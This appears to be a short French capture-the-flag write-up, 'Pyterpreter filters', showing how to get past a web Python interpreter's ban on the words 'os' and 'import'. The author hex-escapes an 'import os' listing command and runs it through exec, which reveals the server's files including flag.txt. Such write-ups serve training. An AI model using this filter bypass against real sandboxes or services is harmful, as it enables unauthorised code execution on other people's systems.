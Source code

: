 # Pyterpreter filters

![img](./0.png)

## Challenge :

On a le même site, et on veut le flag, c'est tout.

## Stratégie :

On peut déjà regarder les fichiers comme avant :

```py
import os
print(os.listdir())

> Tu ne peux pas mettre 'os' dans ton code !<br/>Tu ne peux pas mettre 'import' dans ton code !<br/>
```

Mince, ça marchera pas.

Essayons d'encoder ça :

```py
import os
print(os.listdir())
```

Ca deviens 

```
\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x0a\x70\x72\x69\x6e\x74\x28\x6f\x73\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x29\x29
```

On essaie :

```py
t = "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x0a\x70\x72\x69\x6e\x74\x28\x6f\x73\x2e\x6c\x69\x73\x74\x64\x69\x72\x28\x29\x29".encode('raw_unicode_escape').decode('utf8')
exec(t)

> ['__pycache__', 'code_file', 'templates', 'static', 'app.py', 'flag.txt', 'requirements.txt']
```

Et il suffit juste de faire comme si il n'y avait pas de filtre !